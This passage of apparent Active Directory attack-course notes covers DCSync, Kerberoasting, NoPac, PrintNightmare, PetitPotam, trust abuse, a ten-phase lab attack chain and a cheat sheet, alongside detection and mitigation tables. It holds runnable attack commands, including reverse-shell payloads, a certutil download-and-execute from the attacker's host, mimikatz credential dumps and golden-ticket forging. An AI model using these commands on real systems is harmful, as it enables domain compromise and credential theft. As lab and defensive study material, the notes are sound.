
  # 6. Crack
  hashcat -m 13100 adunn_tgs /usr/share/wordlists/rockyou.txt --force

  # 7. Cleanup IN THIS ORDER
  Set-DomainObject -Credential $Cred2 -Identity adunn -Clear serviceprincipalname -Verbose
  Remove-DomainGroupMember -Identity 'Help Desk Level 1' -Members 'damundsen' -Credential $Cred2 -Verbose
  ```
- **Detection / mitigation.** Advanced Audit Policy → *Directory Service Changes* → Event 5136 (object modified) — `ConvertFrom-SddlString` decodes the SDDL blob to show *what* changed. Tier-0 isolation, deny self-service password reset for privileged ACLs, BloodHound-style continuous review.



- **Source.** [[ad-enum-attacks/21-acl-abuse-tactics]]

---

### DCSync

- **Concept.** AD's MS-DRSR replication protocol lets a DC ask peers for any account's secrets. With `Replicating Directory Changes` + `Replicating Directory Changes All` (or `AllExtendedRights` on the domain object), a *non-DC* user can impersonate a DC and pull every NTLM hash, Kerberos key, and reversible-encryption cleartext — over the network, no code execution on the DC.
- **Prerequisites.** A user holding both replication ACEs (Domain/Enterprise Admins by default; sometimes mis-delegated).
- **Procedure (Linux).**
  ```
  secretsdump.py -outputfile inlanefreight_hashes -just-dc INLANEFREIGHT/adunn@172.16.5.5
  cat inlanefreight_hashes.ntds.cleartext   # accounts with reversible encryption
  grep khartsfield inlanefreight_hashes.ntds
  secretsdump.py -just-dc-user INLANEFREIGHT/krbtgt INLANEFREIGHT/adunn@172.16.5.5
  ```
- **Procedure (Windows).**
  ```
  runas /netonly /user:INLANEFREIGHT\adunn powershell
  mimikatz.exe
  privilege::debug
  lsadump::dcsync /domain:INLANEFREIGHT.LOCAL /user:INLANEFREIGHT\administrator
  lsadump::dcsync /domain:INLANEFREIGHT.LOCAL /user:INLANEFREIGHT\krbtgt
  ```
- **Confirm reversible encryption.** `Get-ADUser -Filter 'userAccountControl -band 128' -Properties userAccountControl` (UAC 128 = `ENCRYPTED_TEXT_PWD_ALLOWED`).
- **Detection / mitigation.** Audit `DS-Replication-Get-Changes` ACE assignments quarterly. Detect *non-DC* hosts issuing DRSUAPI calls (Event 4662 with property GUID `1131f6aa…` / `1131f6ad…`). Tier-0 segmentation. **T1003.006**.
- **Source.** [[ad-enum-attacks/22-dcsync]]

---

### Privileged Access Patterns (RDP / WinRM / SQLAdmin)

- **Concept.** Lateral movement does **not** require local admin. Membership in *Remote Desktop Users*, *Remote Management Users*, or SQL `sysadmin` is enough — and the SQL service account almost always holds `SeImpersonatePrivilege`, an instant SYSTEM ramp.
- **Enumeration.**
  ```
  Get-NetLocalGroupMember -ComputerName <H> -GroupName "Remote Desktop Users"
  Get-NetLocalGroupMember -ComputerName <H> -GroupName "Remote Management Users"
  # BloodHound: CanRDP, CanPSRemote, SQLAdmin edges
  ```
- **WinRM.** `Enter-PSSession -ComputerName <H> -Credential $cred` (Windows) or `evil-winrm -i <IP> -u <U>` / `evil-winrm -i <IP> -u <U> -H <NTHASH>` (Linux PtH).
- **SQL.** `Get-SQLInstanceDomain` (PowerUpSQL) → `mssqlclient.py <DOM>/<U>@<IP> -windows-auth` → `enable_xp_cmdshell` → `xp_cmdshell whoami /priv` → JuicyPotato/PrintSpoofer/Meterpreter `getsystem` → SYSTEM.
- **Watch out.**
  - `Domain Users` baked into *Remote Desktop Users* on a server is a one-line catastrophe — gives every user RDP everywhere.
  - **Double-hop problem.** Evil-WinRM/`Enter-PSSession` only forwards a service ticket, *not* your TGT — running PowerView from inside fails silently on the second hop. Two fixes: pass `-Credential $cred` to every cmdlet, or `Register-PSSessionConfiguration` with explicit credentials.
- **Source.** [[ad-enum-attacks/23-privileged-access]], [[ad-enum-attacks/24-winrm-double-hop-kerberos]]

---

### Bleeding-Edge Vulnerabilities

Three full-DA escalations that need only a low-priv domain user.

#### NoPac (CVE-2021-42278 + CVE-2021-42287)

- **Concept.** Rename a machine account to look like a DC, request a TGT for that machine, then request an S4U2self for `Administrator` — broken PAC validation makes the DC issue admin tickets.
- **Procedure.**
  ```
  sudo python3 scanner.py inlanefreight.local/forend:Klmcargo2 -dc-ip 172.16.5.5 -use-ldap
  sudo python3 noPac.py INLANEFREIGHT.LOCAL/forend:Klmcargo2 -dc-ip 172.16.5.5 -dc-host ACADEMY-EA-DC01 -shell --impersonate administrator -use-ldap
  # Or DCSync directly
  sudo python3 noPac.py INLANEFREIGHT.LOCAL/forend:Klmcargo2 -dc-ip 172.16.5.5 -dc-host ACADEMY-EA-DC01 --impersonate administrator -use-ldap -dump -just-dc-user INLANEFREIGHT/administrator
  ```
- **Gotcha.** `ms-DS-MachineAccountQuota` must be ≥1 (default 10). If 0 — fails.

#### PrintNightmare (CVE-2021-1675 / CVE-2021-34527)

- **Concept.** Print Spooler RPC (MS-RPRN/MS-PAR) loads attacker-supplied DLL as SYSTEM.
- **Procedure.**
  ```
  rpcdump.py @172.16.5.5 | egrep 'MS-RPRN|MS-PAR'
  msfvenom -p windows/x64/meterpreter/reverse_tcp LHOST=<US> LPORT=4444 -f dll > evil.dll
  sudo smbserver.py -smb2support pubshare /tmp/dll/
  sudo python3 CVE-2021-1675.py inlanefreight.local/forend:Klmcargo2@172.16.5.5 '\\<US>\pubshare\evil.dll'
  ```
- **Mitigation.** Disable Print Spooler on every DC and tier-0 host. Period.

#### PetitPotam (CVE-2021-36942)

- **Concept.** MS-EFSRPC `EfsRpcOpenFileRaw` coerces the DC to authenticate to attacker. Relay that auth to AD CS Web Enrollment → get a DC certificate → forge TGT → DCSync. Works **unauthenticated**.
- **Procedure.**
  ```
  # T1
  sudo ntlmrelayx.py -debug -smb2support --target http://ACADEMY-EA-CA01.INLANEFREIGHT.LOCAL/certsrv/certfnsh.asp --adcs --template DomainController
  # T2
  python3 PetitPotam.py 172.16.5.225 172.16.5.5
  # After base64 cert appears
  python3 /opt/PKINITtools/gettgtpkinit.py INLANEFREIGHT.LOCAL/ACADEMY-EA-DC01\$ -pfx-base64 <BASE64> dc01.ccache
  export KRB5CCNAME=dc01.ccache
  secretsdump.py -just-dc-user INLANEFREIGHT/administrator -k -no-pass ACADEMY-EA-DC01.INLANEFREIGHT.LOCAL
  ```
- **Mitigation.** Patch + enable EPA on AD CS + require SSL on `certsrv` + disable NTLM to AD CS / DCs.



- **Source.** [[ad-enum-attacks/25-bleeding-edge-vulnerabilities]]

---

### Domain Trusts Primer

- **Concept.** Trusts let users in domain A authenticate to resources in domain B. Within a forest all trusts are auto-created and transitive; cross-forest needs explicit setup.
- **Enumeration.**
  ```
  Get-ADTrust -Filter *                       # IntraForest, ForestTransitive, Direction
  Get-DomainTrust ; Get-DomainTrustMapping    # PowerView
  netdom query /domain:<DOM> trust
  Get-DomainUser -Domain LOGISTICS.INLANEFREIGHT.LOCAL | select SamAccountName
  ```
- **Read these flags.** `IntraForest: True` = parent/child same forest; `ForestTransitive: True` = forest trust to another forest; `Direction: BiDirectional` = both ways.
- **Source.** [[ad-enum-attacks/27-domain-trusts-primer]]

---

### Child → Parent Trust Abuse (ExtraSids / Golden Ticket)

- **Concept.** Inside one forest, the parent and child share the SID Filtering exemption. If you compromise the child, DCSync the child's KRBTGT, forge a Golden Ticket whose `ExtraSids` field includes the parent forest's *Enterprise Admins* SID (`-519`), and authenticate to the parent — you're EA.
- **Procedure (Linux).**
  ```
  # 1. DCSync child KRBTGT
  secretsdump.py logistics.inlanefreight.local/htb-student_adm@172.16.5.240 -just-dc-user LOGISTICS/krbtgt

  # 2. Get child SID
  lookupsid.py logistics.inlanefreight.local/htb-student_adm@172.16.5.240 | grep "Domain SID"

  # 3. Get parent SID and Enterprise Admins RID
  lookupsid.py logistics.inlanefreight.local/htb-student_adm@172.16.5.5 | grep -B12 "Enterprise Admins"

  # 4. Forge Golden Ticket with extra-sid -519
  ticketer.py -nthash 9d765b482771505cbe97411065964d5f \
    -domain LOGISTICS.INLANEFREIGHT.LOCAL \
    -domain-sid S-1-5-21-2806153819-209893948-922872689 \
    -extra-sid S-1-5-21-3842939050-3880317879-2865463114-519 hacker

  # 5. Use it
  export KRB5CCNAME=hacker.ccache
  psexec.py LOGISTICS.INLANEFREIGHT.LOCAL/hacker@academy-ea-dc01.inlanefreight.local -k -no-pass -target-ip 172.16.5.5
  secretsdump.py hacker@academy-ea-dc01.inlanefreight.local -k -no-pass -target-ip 172.16.5.5 -just-dc-user INLANEFREIGHT/bross

  # Auto-pwn
  raiseChild.py -target-exec 172.16.5.5 LOGISTICS.INLANEFREIGHT.LOCAL/htb-student_adm
  ```
- **Why it works.** SID Filtering is **disabled by default within a forest** — the parent honours `ExtraSids` claims from the child KDC. Across forests, SID Filtering strips them.
- **Mitigation.** Enable SID Filtering on intra-forest trusts (rare, breaks legitimate patterns); rotate KRBTGT twice; treat every child domain as tier-0.
- **Source.** [[ad-enum-attacks/29-domain-trusts-child-to-parent-linux]]

---

### Cross-Forest Trust Abuse

- **Concept.** Across forests SID Filtering is on, so ExtraSids attacks fail. Four real avenues:
  1. **Cross-forest Kerberoasting** — request TGS for SPNs in the foreign domain.
  2. **Admin password reuse** between forests.
  3. **Foreign Group Membership** — Domain Local Group in forest B contains a user from forest A.
  4. **SID History abuse** when SID Filtering is misconfigured/disabled.
- **Cross-forest Kerberoast (Linux).**
  ```
  GetUserSPNs.py -target-domain FREIGHTLOGISTICS.LOCAL INLANEFREIGHT.LOCAL/wley
  GetUserSPNs.py -request -target-domain FREIGHTLOGISTICS.LOCAL INLANEFREIGHT.LOCAL/wley -outputfile cross.tgs
  hashcat -m 13100 cross.tgs /usr/share/wordlists/rockyou.txt
  bloodhound-python -d freightlogistics.local -dc DC03.freightlogistics.local -c All -u wley@inlanefreight.local -p '<PASS>'
  psexec.py FREIGHTLOGISTICS.LOCAL/sapsso:'pabloPICASSO'@ACADEMY-EA-DC03.FREIGHTLOGISTICS.LOCAL
  ```
- **In BloodHound.** Analysis tab → *Users with Foreign Domain Group Membership*. Lights up cross-forest admin paths.
- **Source.** [[ad-enum-attacks/31-cross-forest-trust-abuse-linux]]

---

### Hardening / Defense (Section 32)

- **Document & audit.** Every OU, GPO, FSMO holder, trust, elevated user, and host should be inventoried. Run PingCastle/Group3r/BloodHound from the defender side quarterly.
- **People.** Strong unique passwords; no shared local admins (LAPS); split-tier admin (workstation / server / DC accounts); add sensitive principals to **Protected Users** (no NTLM/RC4/DES, no plaintext or long-term keys cached, TGT capped at 4 h).
- **Process.** Decommissioning, asset inventories, audit schedules, change control on AD ACLs.
- **Technology.** Disable NTLM, enforce SMB signing + LDAP signing/channel binding; remove unconstrained delegation; set `ms-DS-MachineAccountQuota=0`; disable Print Spooler on DCs/servers; enforce AES-only Kerberos; rotate KRBTGT twice on a schedule; deploy gMSA for service accounts.
- **MITRE-aligned mitigations.**

| TTP | MITRE | Defence |
|---|---|---|
| External recon | T1589 | Scrub metadata, public docs, job postings |
| Internal recon | T1595 | NIDS, block ICMP, segment |
| Poisoning | T1557 | SMB signing, disable LLMNR/NBT-NS |
| Spraying | T1110.003 | Lockout, MFA, log 4624/4648 |
| Cred enum | TA0006 | Anomalous CLI/RDP detection |
| LOTL | — | Baseline, AppLocker, restrict apps |
| Kerberoasting | T1558.003 | gMSA, AES, no DA on services |

- **Source.** [[ad-enum-attacks/32-hardening-active-directory]]

---

## 6. Realistic Chained Attack Walkthrough

*Synthesised from skills-assessment-part1 + skills-assessment-part2.*
Premise: you have a network drop on `172.16.7.0/23`. You leave with the KRBTGT hash.

### Phase 1 — Foothold via LLMNR Poisoning

- **Action.** Plug in, fire Responder, wait.
- **Command.** `sudo responder -I ens224`
- **Result.** Captured NetNTLMv2 for `AB920`; cracked offline: `hashcat -m 5600 ab920.hash /usr/share/wordlists/rockyou.txt` → `weasal`.
- **Why it enables next.** A valid domain credential pair (`AB920:weasal`) unlocks SMB, LDAP, Kerberos, and BloodHound enumeration.

### Phase 2 — Reconnaissance and First Pivot

- **Action.** Sweep the subnet, fingerprint hosts, test access.
- **Commands.**
  ```
  fping -asgq 172.16.7.0/23
  sudo nmap -v -A -iL hosts.txt
  crackmapexec winrm 172.16.7.50 -u 'ab920' -p 'weasal'
  evil-winrm -i 172.16.7.50 -u 'ab920' -p 'weasal'
  type C:\flag.txt
  ```
- **Result.** AB920 has WinRM on `MS01` (172.16.7.50). Foothold confirmed.
- **Why.** WinRM access lets you enumerate the host without dropping tools — and gives a launchpad for the next spray.

### Phase 3 — Internal Password Spray

- **Action.** Use AB920 to dump every domain user, spray a seasonal favourite.
- **Commands.**
  ```
  crackmapexec smb 172.16.7.3 -u 'ab920' -p 'weasal' --users | tee usernames.txt
  cat usernames.txt | cut -d'\' -f2 | awk '{print $1}' | tee valid_users.txt
  kerbrute passwordspray -d inlanefreight.local --dc 172.16.7.3 valid_users.txt Welcome1
  ```
- **Result.** `BR086:Welcome1`.
- **Why.** A *second* low-priv account compounds your reach — different group memberships, different share access.

### Phase 4 — Credential Hunting in Shares

- **Action.** Spider every readable share for hardcoded creds.
- **Commands.**
  ```
  smbmap -u 'br086' -p 'Welcome1' -d INLANEFREIGHT.LOCAL -H 172.16.7.3
  smbmap -u 'br086' -p 'Welcome1' -d INLANEFREIGHT.LOCAL -H 172.16.7.3 -R 'Department Shares' -A web.config
  ```
- **Result.** `web.config` has `netdb / D@ta_bAse_adm1n!` for `SQL01`.
- **Why.** SQL service accounts almost always hold `SeImpersonatePrivilege` → SYSTEM ramp.

### Phase 5 — SQL → SYSTEM via SeImpersonate

- **Action.** Auth to SQL, drop a Meterpreter, `getsystem`.
- **Commands.**
  ```
  msfvenom -p windows/x64/meterpreter/reverse_tcp LHOST=172.16.7.240 LPORT=1335 -f exe -o shell.exe
  python3 -m http.server 8000
  # listener
  msfconsole -q ; use exploit/multi/handler ; set payload windows/x64/meterpreter/reverse_tcp ; set LHOST 172.16.7.240 ; set LPORT 1335 ; run
  # SQL
  python3 /usr/local/bin/mssqlclient.py inlanefreight/netdb:'D@ta_bAse_adm1n!'@172.16.7.60
  enable_xp_cmdshell
  xp_cmdshell "certutil.exe -urlcache -f http://172.16.7.240:8000/shell.exe C:\Users\Public\shell.exe"
  xp_cmdshell "C:\Users\Public\shell.exe"
  # back in handler
  getsystem
  ```
- **Result.** SYSTEM on SQL01.
- **Why.** SYSTEM lets you `lsa_dump_sam` and pull the local admin NTLM hash for lateral re-use.

### Phase 6 — Lateral Movement via Pass-the-Hash

- **Action.** Dump SAM, pass-the-hash to MS01.
- **Commands.**
  ```
  exit                # back to meterpreter prompt
  load kiwi
  lsa_dump_sam        # NTLM: bdaffbfe64f1fc646a3353be1c2c3c99
  evil-winrm -i 172.16.7.50 -u administrator -H bdaffbfe64f1fc646a3353be1c2c3c99
  ```
- **Result.** Local admin on MS01 via PtH.
- **Why.** Two-host gold-image password reuse is endemic; from MS01 you can RDP and run Mimikatz against logged-on domain users.

### Phase 7 — Mimikatz / WDigest for Domain Creds

- **Action.** Re-enable WDigest, force a re-logon, dump cleartext.
- **Commands.**
  ```
  reg add HKLM\SYSTEM\CurrentControlSet\Control\SecurityProviders\WDigest /v UseLogonCredential /t REG_DWORD /d 1
  shutdown.exe /r /t 0 /f
  # after reboot, RDP, run mimikatz
  privilege::debug
  sekurlsa::logonpasswords
  ```
- **Result.** Domain user `tpetty:Sup3rS3cur3D0m@inU2eR`.
- **Why.** Sometimes the user logged onto a server is exactly the one with hidden ACL rights.

### Phase 8 — ACL Discovery (with AMSI fallback)

- **Action.** Map outbound ACLs from every account you control.
- **Commands.** PowerView path:
  ```
  Import-Module .\PowerView.ps1
  $sid = Convert-NameToSid tpetty
  Get-DomainObjectACL -Identity * | ? {$_.SecurityIdentifier -eq $sid}
  ```
  AMSI-blocked path (Linux fallback):
  ```
  bloodhound-python -d inlanefreight.local -u ab920 -p 'weasal' -ns 172.16.7.3 -c Acl --zip
  unzip -o *.zip
  grep -i "GenericAll" *groups.json
  rpcclient -U 'ab920%weasal' 172.16.7.3 -c "lookupsids S-1-5-21-...-4611"
  ```
- **Result.** `tpetty` has DCSync rights (`DS-Replication-Get-Changes` + `-All`); separately, `CT059` has GenericAll on Domain Admins.
- **Why.** Two parallel paths to DA: DCSync directly, or write yourself into Domain Admins.

### Phase 9 — Domain Compromise (DCSync)

- **Action.** Run as the privileged user, DCSync the built-in admin and KRBTGT.
- **Commands.**
  ```
  runas /user:INLANEFREIGHT\tpetty powershell.exe
  mimikatz.exe
  privilege::debug
  lsadump::dcsync /domain:INLANEFREIGHT.LOCAL /user:INLANEFREIGHT\administrator
  # OR from Linux as CT059 after net rpc add
  net rpc group addmem "Domain Admins" "CT059" -U 'INLANEFREIGHT/CT059%charlie1' -S 172.16.7.3
  evil-winrm -i 172.16.7.3 -u CT059 -p 'charlie1'
  python3 /usr/local/bin/secretsdump.py inlanefreight.local/CT059:charlie1@172.16.7.3
  ```
- **Result.** Administrator NTLM `27dedb1dab4d8545c6e1c66fba077da0`; KRBTGT NTLM `7eba70412d81c1cd030d72a3e8dbe05f`.
- **Why.** KRBTGT lets you forge any TGT in the domain (Golden Ticket). Administrator hash gives PtH on every member host.

### Phase 10 — Pivot via Pass-the-Hash to DC, Loot, Persist

- **Commands.**
  ```
  netsh.exe interface portproxy add v4tov4 listenport=6666 listenaddress=<WEB01> connectport=5985 connectaddress=172.16.7.3
  evil-winrm -i 127.0.0.1 --port 6666 -u administrator -H 27dedb1dab4d8545c6e1c66fba077da0
  type C:\Users\Administrator\Desktop\flag.txt
  ```
- **Result.** Domain Admin shell on DC01. With KRBTGT in hand, persistence via Golden Ticket is trivial; if a forest trust exists, ExtraSids it to **Enterprise Admin** (Section 5 / [[ad-enum-attacks/29-domain-trusts-child-to-parent-linux]]).

---

## 7. Quick-Reference Cheat Sheet

| Technique | When | Key tool | One-liner | MITRE |
|---|---|---|---|---|
| LLMNR/NBT-NS poison | L2 access, no creds | Responder | `sudo responder -I ens224` | T1557.001 |
| External OSINT | Pre-engagement | dig, linkedin2username | `dig any inlanefreight.com` | T1589 |
| Host sweep | Unauth internal | fping, nmap | `fping -asgq 172.16.5.0/23` | T1018 |
| Kerbrute userenum | Unauth, stealth | Kerbrute | `kerbrute userenum -d <DOM> --dc <DC> jsmith.txt` | T1087.002 |
| Password policy (anon) | Pre-spray | rpcclient/ldapsearch | `rpcclient -U "" -N <DC> -c getdompwinfo` | T1201 |
| Password spray (Linux) | Have user list | CrackMapExec | `crackmapexec smb <DC> -u users.txt -p Welcome1 \| grep +` | T1110.003 |
| Password spray (Windows) | Domain-joined | DomainPasswordSpray.ps1 | `Invoke-DomainPasswordSpray -Password Winter2022` | T1110.003 |
| Local-admin hash spray | Have NT hash | CME --local-auth | `crackmapexec smb --local-auth <NET> -u administrator -H <HASH>` | T1078.002 |
| Defender / AppLocker recon | On-host foothold | PowerShell | `Get-MpComputerStatus ; Get-AppLockerPolicy -Effective` | T1518.001 |
| LAPS read | Have rights | LAPSToolkit | `Find-LAPSDelegatedGroups ; Get-LAPSComputers` | T1555 |
| BloodHound (Linux) | Cred + DC reach | bloodhound-python | `bloodhound-python -u <U> -p <P> -ns <DC> -d <DOM> -c all` | TA0007 |
| BloodHound (Windows) | Domain-joined host | SharpHound | `.\SharpHound.exe -c All --zipfilename ilf.zip` | TA0007 |
| Share creds hunt | Cred + share access | Snaffler | `.\Snaffler.exe -d <DOM> -s -v data -o snaffler.log` | T1552.001 |
| Living-off-the-land enum | No-tool host | net/dsquery/wmic | `net group "Domain Admins" /domain` | T1087 |
| Kerberoasting (Linux) | Any domain user | GetUserSPNs.py | `GetUserSPNs.py -dc-ip <DC> <DOM>/<U> -request` | T1558.003 |
| Kerberoasting (Windows) | Domain-joined | Rubeus | `.\Rubeus.exe kerberoast /ldapfilter:'admincount=1' /nowrap` | T1558.003 |
| Crack TGS | Have hash | hashcat | `hashcat -m 13100 tgs /usr/share/wordlists/rockyou.txt` | T1110.002 |
| ACL outbound | Any user | PowerView | `Get-DomainObjectACL -ResolveGUIDs -Identity * \| ? {$_.SecurityIdentifier -eq $sid}` | T1078 |
| ForceChangePassword | Have ACE | PowerView | `Set-DomainUserPassword -Identity <T> -AccountPassword $P -Credential $C` | T1098 |
| GenericWrite (fake SPN) | Have ACE | PowerView+Rubeus | `Set-DomainObject -Identity <T> -SET @{serviceprincipalname='x/y'}` | T1558.003 |
| AddMember | Have ACE | PowerView | `Add-DomainGroupMember -Identity '<G>' -Members <U> -Credential $C` | T1098 |
| DCSync (Linux) | Replication ACE | secretsdump.py | `secretsdump.py -just-dc <DOM>/<U>@<DC>` | T1003.006 |
| DCSync (Windows) | Replication ACE | Mimikatz | `lsadump::dcsync /domain:<DOM> /user:<DOM>\administrator` | T1003.006 |
| RDP/WinRM lateral | Membership | Evil-WinRM | `evil-winrm -i <IP> -u <U> -H <HASH>` | T1021.006 |
| SQL → SYSTEM | sysadmin role | mssqlclient.py | `xp_cmdshell whoami /priv` then PrintSpoofer/getsystem | T1059.003 |
| NoPac | MAQ ≥ 1, unpatched DC | noPac.py | `noPac.py <DOM>/<U>:<P> -dc-ip <DC> -dc-host <H> -shell --impersonate administrator -use-ldap` | T1068 |
| PrintNightmare | Spooler exposed | CVE-2021-1675.py | `python3 CVE-2021-1675.py <DOM>/<U>:<P>@<DC> '\\<US>\share\evil.dll'` | T1068 |
| PetitPotam | AD CS web enroll | PetitPotam + ntlmrelayx | `python3 PetitPotam.py <US> <DC>` | T1187 |
| Trust enum | Cred | PowerView | `Get-DomainTrustMapping` | T1482 |
| Child→Parent ExtraSids | Child KRBTGT | ticketer.py | `ticketer.py -nthash <K> -domain-sid <CS> -extra-sid <PS>-519 hacker` | T1134.005 |
| raiseChild auto | Child admin | Impacket | `raiseChild.py -target-exec <PARENT_DC> <CHILD>/<ADMIN>` | T1134.005 |
| Cross-forest roast | Forest trust | GetUserSPNs.py | `GetUserSPNs.py -target-domain <FOREIGN> <CUR>/<U> -request` | T1558.003 |
| Pass-the-hash | NT hash | Evil-WinRM | `evil-winrm -i <IP> -u administrator -H <NT>` | T1550.002 |
| Pass-the-ticket | ccache | Impacket -k | `export KRB5CCNAME=t.ccache ; psexec.py <DOM>/<U>@<H> -k -no-pass` | T1550.003 |

---

## 8. Defenses Summary

| Attack | Detection (event / log) | Mitigation |
|---|---|---|
| LLMNR/NBT-NS poison | UDP 5355/137 burst; honeypot LLMNR; events 4697 & 7045 | GPO disable LLMNR; per-host disable NBT-NS; SMB signing; segmentation |
| External recon | Public-source monitoring; HIBP alerts | Metadata scrubbing; DMARC; dark-web monitoring |
| Host sweep / scan | NIDS; Kerberos 4768 burst | Block ICMP at perimeter; segment; baseline |
| User enum (Kerbrute) | 4768 success without 4624 | Kerberos auditing GPO; rate-limit AS-REQ |
| Password policy probe | Anonymous LDAP/SMB calls | Disable null sessions; LDAP signing/channel binding |
| Password spraying | 4625 / 4771 burst across users | Lockout policy; MFA; password filter; smart-lockout |
| Local-admin reuse | 4624 type 3 with same hash multi-host | LAPS, randomised local admin |
| LAPS read | 4662 on `ms-Mcs-AdmPwd` attribute | Tight delegation; alert on any LAPS read |
| Defender bypass | 1116/1117 absent for sustained period; AMSI events 4104 | Tamper protection; alerts on Defender state change |
| BloodHound collection | 4662 on directory enum; LDAP volume spike | Honeyusers; SACL on AdminSDHolder |
| Snaffler | Share read volume; AV signature | DLP on shares; remove cleartext creds; encrypt configs |
| LOTL recon (`net`, `dsquery`, `wmic`) | 4688 with parent shell; Sysmon 1 | Constrained Language Mode; AppLocker; PSv2 removal |
| Kerberoasting | 4769 with RC4 enctype 0x17 burst | gMSA; AES-only; honeypot SPN; `admincount=1` audit |
| ACL chain abuse | 5136 (object modified) — decode SDDL | Audit DACL changes; tier-0 isolation; BloodHound continuous review |
| ForceChangePassword | 4724 (admin reset password) | Restrict reset rights; alert on resets of priv accounts |
| Add to Domain Admins | 4728 (member added to security-enabled global group) | SACL on Domain Admins; alert |
| DCSync | 4662 with property `1131f6aa-…` from non-DC source | Audit replication ACE quarterly; MS-DRSR detection on non-DCs |
| RDP/WinRM lateral | 4624 type 10 / 4648 explicit creds; 4769 service ticket | Restrict WinRM/RDP to admin jump; deny `Domain Users` from server RDP |
| SQL xp_cmdshell | SQL audit; 4688 child of `sqlservr.exe` | Disable xp_cmdshell; remove `sysadmin` from service accounts |
| NoPac | 4741/4742 machine account name change; TGT for admin to weird account | Patch (Nov 2021); set MAQ=0 |
| PrintNightmare | 4688 spoolsv → cmd; print spooler service alerts | Disable spooler on DC; patch; restrict point-and-print |
| PetitPotam | EFSRPC traffic to DC; 4624 anonymous to AD CS | Patch; EPA on AD CS; HTTPS only; disable NTLM to AD CS / DCs |
| Trust enum | 4662 trustedDomain object reads | Restrict `Get-ADTrust` rights; audit |
| ExtraSids / Golden Ticket | 4769 anomalous ticket lifetime; KRBTGT usage | Rotate KRBTGT 2× annually; SID Filtering on intra-forest if feasible |
| Cross-forest roast | 4769 from foreign realm | Selective auth on forest trust; AES-only |
| Pass-the-Hash | 4624 type 3 with NTLM where Kerberos expected | Disable NTLM; Credential Guard; Protected Users |
| Pass-the-Ticket | 4769 ticket without preceding 4768 | Restrict admin tier; monitor unusual TGS usage |

---

## 9. References

### Source notes (read in full for this presentation)

- [[ad-enum-attacks/01-intro-to-ad]]
- [[ad-enum-attacks/02-tools-of-the-trade]]
- [[ad-enum-attacks/03-scenario]]
- [[ad-enum-attacks/04-external-recon]]
- [[ad-enum-attacks/05-initial-domain-enum]]
- [[ad-enum-attacks/06-llmnr-nbtns-poisoning-linux]]
- [[ad-enum-attacks/07-llmnr-nbtns-poisoning-windows]]
- [[ad-enum-attacks/08-password-spraying-overview]]
- [[ad-enum-attacks/09-enumerating-password-policies]]
- [[ad-enum-attacks/10-password-spraying-user-list]]
- [[ad-enum-attacks/11-internal-password-spraying-linux]]
- [[ad-enum-attacks/12-internal-password-spraying-windows]]
- [[ad-enum-attacks/13-enumerating-security-controls]]
- [[ad-enum-attacks/14-credentialed-enum-linux]]
- [[ad-enum-attacks/15-credentialed-enum-windows]]
- [[ad-enum-attacks/16-living-off-the-land]]
- [[ad-enum-attacks/17-kerberoasting-linux]]
- [[ad-enum-attacks/18-kerberoasting-windows]]
- [[ad-enum-attacks/19-acl-abuse-primer]]
- [[ad-enum-attacks/20-acl-enumeration]]
- [[ad-enum-attacks/21-acl-abuse-tactics]]
- [[ad-enum-attacks/22-dcsync]]
- [[ad-enum-attacks/23-privileged-access]]
- [[ad-enum-attacks/24-winrm-double-hop-kerberos]]
- [[ad-enum-attacks/25-bleeding-edge-vulnerabilities]]
- [[ad-enum-attacks/27-domain-trusts-primer]]
- [[ad-enum-attacks/29-domain-trusts-child-to-parent-linux]]
- [[ad-enum-attacks/31-cross-forest-trust-abuse-linux]]
- [[ad-enum-attacks/32-hardening-active-directory]]
- [[ad-enum-attacks/36-beyond-this-module]]
- [[ad-enum-attacks/skills-assessment-part1]]
- [[ad-enum-attacks/skills-assessment-part2]]

### Visual aids in the source folder

- `ad-enum-attacks/ad-attack-chain-decision-tree.html` — interactive decision tree.
- `ad-enum-attacks/ad-attack-chain-mindmap.html` — mind-map view of the kill chain.
- `ad-enum-attacks/ad-forest-mindmap.svg` — forest topology illustration.
- `ad-enum-attacks/acl-abuse-flowchart.png` — ACL ACE → tool decision flowchart.

### Recommended reading (Section 36)

SpecterOps blog, harmj0y archive, Sean Metcalf (adsecurity.org), Dirk-jan Mollema (dirkjanm.io), Shenanigans Labs, The DFIR Report, 0xdf walkthroughs. *Six Degrees of Domain Admin* (BloodHound intro talk), *Designing AD DACL Backdoors*, *Kicking the Guard Dog of Hades* (original Kerberoasting), *Kerberoasting 101* by Tim Medin. HTB practice boxes: Forest, Active, Reel, Mantis, Blackfield, Monteverde; the Zephyr track; Pro Labs *Dante* and *Offshore*; Endgame *Ascension*.
